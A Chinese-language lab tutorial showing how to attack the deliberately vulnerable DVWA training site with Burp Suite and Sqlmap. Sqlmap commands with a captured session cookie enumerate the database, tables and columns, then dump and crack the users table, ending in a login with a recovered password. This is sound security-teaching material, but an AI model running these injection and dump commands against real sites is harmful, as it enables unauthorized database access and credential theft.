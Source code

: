 ## 使用Sqlmap对目标站点进行渗透攻击

**步骤1:打开测试站点DVWA的主页面，并设置其安全级别为 low，如图所示。**

![image-20230427180418586](云端应用sql注入攻击.assets/image-20230427180418586.png)

**步骤2:单击左边的SQL Injection，打开图所示的界面。**

![image-20230427180710969](云端应用sql注入攻击.assets/image-20230427180710969.png)

**步骤3:在`User ID`文本框中随意输入一串数字，比如123，同时开启Burp Suite的数据包捕获功能，如图所示。**

![image-20230427180748029](云端应用sql注入攻击.assets/image-20230427180748029.png)

![image-20230427182012153](云端应用sql注入攻击.assets/image-20230427182012153.png)



**步骤4:在Kali Linux虚拟机的命令行状态下运行Sqlmap，并输入语句**

```shell
sqlmap -u "http://192.168.10.131/dvwa/vulnerabilities/sqli/?id=123&Submit=Submit" --cookie="security=low; PHPSESSID=066dh160jnt38r8frcj0t4pdr2" --current-db
```

**第一次操作，user-ID建议换一个再提交一遍**

`-u`后面的内容来自上图数据包中 **Referer**后面的内容，**cookie**来自图中 **Cookie**后的内容。执行该语句，得到网站数据库的名称，如图所示。

![image-20230427214531813](云端应用sql注入攻击.assets/image-20230427214531813.png)

![image-20230427214441776](云端应用sql注入攻击.assets/image-20230427214441776.png)



**步骤5:在上述命令的基础上，后面加上`--tables`来探测该数据库中的表，如图所示。探测数据库表的结果如图所示**

```shell
sqlmap -u "http://192.168.10.131/dvwa/vulnerabilities/sqli/?id=123&Submit=Submit" --cookie="security=low; PHPSESSID=066dh160jnt38r8frcj0t4pdr2" --current-db --tables
```

![image-20230427214832914](云端应用sql注入攻击.assets/image-20230427214832914.png)

**步骤6:针对其中的一个表users，猜测其中的字段。执行语句，得到的结果如图所示。**

```shell
sqlmap -u "http://192.168.10.131/dvwa/vulnerabilities/sqli/?id=123&Submit=Submit" --cookie="security=low; PHPSESSID=066dh160jnt38r8frcj0t4pdr2" --columns -T users
```

![image-20230427215216402](云端应用sql注入攻击.assets/image-20230427215216402.png)



**步骤7:执行命令，对users表中所有字段的值进行探测**

```shell
sqlmap -u "http://192.168.10.131/dvwa/vulnerabilities/sqli/?id=123&Submit=Submit" --cookie="security=low; PHPSESSID=066dh160jnt38r8frcj0t4pdr2" --dump -T users
```

在探测过程中用到其自带的字典,得到的结果如图所示。

![image-20230427220148038](云端应用sql注入攻击.assets/image-20230427220148038.png)

**步骤8:利用上述结果，登录DVWA网站主页进行验证，比如用户名为1337,密码为charley如图5所示**

![image-20230427220435673](云端应用sql注入攻击.assets/image-20230427220435673.png)